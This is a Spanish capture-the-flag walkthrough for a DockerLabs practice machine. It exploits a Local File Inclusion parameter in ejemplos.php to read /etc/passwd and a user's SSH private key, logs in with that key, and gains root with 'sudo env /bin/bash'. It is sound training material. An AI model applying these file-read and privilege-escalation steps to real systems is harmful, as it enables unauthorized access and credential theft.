Maquina pntopntobarra de [DockerLabs](https://dockerlabs.es)

![dock](./imagenes/dock.png)

Autor: yo ([maciiii___](https://instagram.com/macim0_))

Dificultad: Fácil

# INTRUSION

Comenzamos haciendo un escaneo de nmap a la ip 172.17.0.2.

```css
sudo nmap -p- 172.17.0.2 -sS --min-rate 5000 -n --open -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Sun Aug 18 23:05:22 2024 as: nmap -p- -sS --min-rate 5000 -n --open -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.000014s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

# Nmap done at Sun Aug 18 23:05:24 2024 -- 1 IP address (1 host up) scanned in 1.76 seconds

```

Vemos el puerto 22 y 80 abierto, nada interesante por lo que iremos directo al puerto 80 desde el navegador.

## PUERTO 80:

![80](./imagenes/80.png)

Parece un tipo de advertencia y nos nombra un "LeFvIrus", si vemos las letras en mayuscula seria "LFI", por lo que podria tratar de un `Local File Inclusion`, sabiendo eso podemos entrar a donde dice "Ejemplos de computadoras infectadas" y nos redirige a un ".php" que dice `Error al cargar el archivo.` pero en la barra de busqueda pone `http://172.17.0.2/ejemplos.php?images=./ejemplo1.png` por lo que cambiamos el "./ejemplo1.png" por `/etc/passwd`. Como hay un usuario llamado "nico" podemos ver si se puede leer su clave privada de ssh, simplemente ponemos "/home/nico/.ssh/id_rsa" y listo. Al enviarlo podemos ver la clave privada de el usuario nico. Nos copiamos la clave a nuestra maquina local a un archivo llamado "id_rsa", le damos permisos con `chmod 600 id_rsa` y luego entramos sin contraseña usando `ssh -i id_rsa nico@172.17.0.2`.

# ESCALADA DE PRIVILEGIOS

Una vez dentro seremos el usuario nico, al ejecutar `sudo -l` se ve que podemos ejecutar como root el binario "env", por lo que simplemente ponemos:

```css
sudo env /bin/bash
```

y listo, somos root:

![root](./imagenes/root.png)

Gracias.....

